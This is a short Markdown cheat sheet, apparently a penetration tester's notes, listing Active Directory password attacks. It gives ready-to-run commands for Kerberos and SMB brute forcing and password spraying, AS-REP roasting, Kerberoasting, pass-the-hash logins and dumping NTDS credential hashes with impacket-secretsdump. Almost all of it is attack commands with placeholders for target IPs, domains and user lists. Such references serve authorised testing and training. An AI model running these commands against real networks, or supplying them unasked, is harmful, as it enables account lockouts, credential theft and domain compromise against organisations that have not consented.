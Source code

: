 # Passwords
## Kerberos
Brute force passwords - WILL LOCKOUT USER:
`kerbrute bruteuser --dc <IP> -d <DOMAIN> <PASSLIST> <USER>`

Check a password for userlist:
`kerbrute passwordspray --dc <IP> -d <DOMAIN> -v <USERLIST> <PASS>`

AS-REP (AS-REP Roasting):
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/ -usersfile <USERLIST>`
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request`
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --asreproast <OUTPUT>`

TGS-REP (Kerberoasting):
`impacket-GetUserSPNs -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request`
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --kerberoasting <OUTPUT>`

## SMB
Brute force passwords - WILL LOCKOUT USER:
`crackmapexec smb <IP> -u <USER> -p <PASSLIST>`
`crackmapexec smb <IP> -u <USER> -H <HASHES>`

Check password for users in list:
`crackmapexec smb <IP> -u <USERLIST> -p <PASS>`

If you have admin rights. Dump NTDS file:
`impacket-secretsdump '<DOMAIN>/<USER>:<PASS>@<IP>'`

Change password user:
`smbpasswd -U <USER> -r <DC_IP>`